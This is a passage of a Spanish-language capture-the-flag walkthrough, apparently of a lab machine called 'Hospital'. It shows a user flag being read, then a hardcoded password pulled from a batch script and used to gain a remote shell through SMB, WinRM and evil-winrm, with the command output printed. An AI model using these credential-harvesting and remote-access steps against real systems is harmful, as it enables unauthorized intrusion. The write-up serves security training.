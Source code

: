 ## User.txt

```bash
C:\Users\drbrown.HOSPITAL\Documents>type C:\Users\drbrown.HOSPITAL\Desktop\user.txt
type C:\Users\drbrown.HOSPITAL\Desktop\user.txt
9094302029572892e53320578b26c0b0
```

## Escalada de privilegios

- En el directorio de `Documents` podemos ver que allí se encuentra el `.bat`.

```bash
C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

05/12/2024  12:36 AM    <DIR>          .
05/12/2024  12:36 AM    <DIR>          ..
10/23/2023  03:33 PM               373 ghostscript.bat
05/12/2024  12:36 AM            28,160 nc.exe
               2 File(s)         28,533 bytes
               2 Dir(s)   4,184,203,264 bytes free

C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>
```

- Tenemos la credencial del `Dr.Brown:chr!$br0wn` vamos a validarlas.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ cme smb 10.10.11.241 -u 'drbrown' -p 'chr!$br0wn'
SMB         10.10.11.241    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drbrown:chr!$br0wn
```

- Podemos usar evil-winrm para mas comodo.

```bash
➜  content cme winrm 10.10.11.241 -u 'drbrown' -p 'chr!$br0wn'
SMB         10.10.11.241    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:hospital.htb)
HTTP        10.10.11.241    5985   DC               [*] http://10.10.11.241:5985/wsman
WINRM       10.10.11.241    5985   DC               [+] hospital.htb\drbrown:chr!$br0wn (Pwn3d!)

➜  content evil-winrm -i 10.10.11.241 -u 'drbrown' -p 'chr!$br0wn'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
```